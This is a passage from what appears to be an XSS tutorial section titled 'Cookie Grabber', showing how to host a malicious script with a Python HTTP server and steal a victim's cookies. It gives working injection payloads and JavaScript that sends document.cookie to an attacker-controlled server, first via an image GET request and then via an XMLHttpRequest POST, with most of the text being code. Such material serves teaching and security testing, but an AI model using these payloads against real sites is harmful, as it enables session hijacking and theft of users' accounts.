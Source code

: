 ```
python2 -m SimpleHTTPServer 80
```
<br>

<h2>Cookie Grabber</h2>
Well let's start with the basics, we can begin by grabbing victim's cookies. The simplest way for that is to exfiltrate the cookies via a HTTP GET request as a parameter. To grab the cookies we can start with the server we just set up.<br>
Injection:
```
<script src=http://127.0.0.1/cookie.js></script>
```
<br>
Contents of cookie.js:

```
var i=new Image;
i.src="http://127.0.0.1/?"+document.cookie;
```
<br>
![](/img/XSSBasic/firstSteal.PNG)

Looks like it worked! Now let's create a payload that will send the same cookies but this time in a HTTP POST request.
For this we will create and send an XMLHTTPRequest.
Injection:
```
<script src=http://127.0.0.1/postCookie.js></script>
```
<br>
postCookie.js:
```
var url = "http://127.0.0.1";
var body = document.cookie;
xr = new XMLHttpRequest();
xr.open("POST", url, true);
xr.send(body);
```
Understanding our payload line by line, on the very first line we are setting the URL where the data should be POSTed to. Then the body of that request would be the cookie we would like to steal.
